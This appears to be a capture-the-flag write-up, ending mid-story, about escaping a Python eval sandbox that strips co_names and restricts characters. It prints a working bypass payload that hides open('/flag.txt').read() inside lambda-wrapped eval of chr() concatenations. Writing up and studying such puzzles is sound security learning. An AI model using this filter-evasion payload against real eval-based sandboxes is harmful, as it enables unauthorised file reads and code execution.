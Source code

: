 It executes your filtered input using
```py
eval(compile(horse, "<horse>", "eval").replace(co_names=()))
```

I started debugging what `co_names` really meant. We can't use anything that has a `co_name`, because it's overwritten.
```py
compile('''print()  and __import__("os") + (lambda x: x)''', "<horse>","eval").co_names
```

Interestingly, both print and `__import__` have `co_names`, but `lambda` does not. Also, any  `co_name` within a function (the lambda context) does not count as a function. That means, you can execute code like[\*](#note1)
```py
(lambda:print("hi"))()
```

To read the flag, I attempt:
```py
(lambda:open('/flag.txt').read())()
```
But running this reminded me of the special character limitation. This has 6: `(`,`)`,`:`,`'`,`/`,`.`

I figured, if I could eval some sort of encoded string, I should be able to do this. This reminded me of 'My First Calculator' from BCACTF '22. After iterating through a ton of different possible options, I settled on using `chr`. That would leave me with the special characters `(`,`)`,`:` for just getting to the lambda, and `+` for joining together the `chr` outputs.

I can encode any arbitrary into the chr(decimal representation)+chr(next...) form by using this python loop
```py
ss = '''open('/flag.txt').read()'''
for i in ss: print(f'chr({ord(i)})+', end='')
```
Assembling to:
```py
s = "(lambda:eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)))()"
```

I put in that payload and got the flag!
.  
.  
.  
no
no I did not. I got out:
```py
['l', 'n', '_', 'a',  
'a', 'r', 'h', 'w', 'e', 't', 'b', 'a', 'n', '_', 'y', 'f', '{', '_', 'a', 'e', 'i', 'l', 'i', 't', 'c', 'a', 'a'  
, 'f', '_', 'd', 'a', 's', 'm', 't', 'e', 'u', 'r', 'i', 'l', '\n', 'p', 'a', 'a', 'm', 'k', 'i', 'd', 'e', 't',  
's', 'o', 'e', 'y', 'i', 'p', 'h', 'a', 'e', '_', 't', 'c', 'g', '_', 'n', 'l', '_', 'h', 'c', 'v', 'd', 'o', '_'  
, '_', 'y', 'n', '_', 'p', 't', 'l', 'a', 'c', 'i', 'e', '_', 't', '}', 'b', '_', 'i', 'o', 'n', 'c', 'p', 'n', '  
_', 'h', 'a', 'y', 'u']
```
Which joins to:
```
ln_aarhwetban_yf{_aeilitcaaf_dasmteuril\npaamkidetsoeyiphae_tcg_nl_hcvdo__yn_ptlacie_t}b_ioncpn_hayu
```
Wut? Is there a second step of encoding? Did I do something wrong? I checked the source code and realized...
```py
discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
```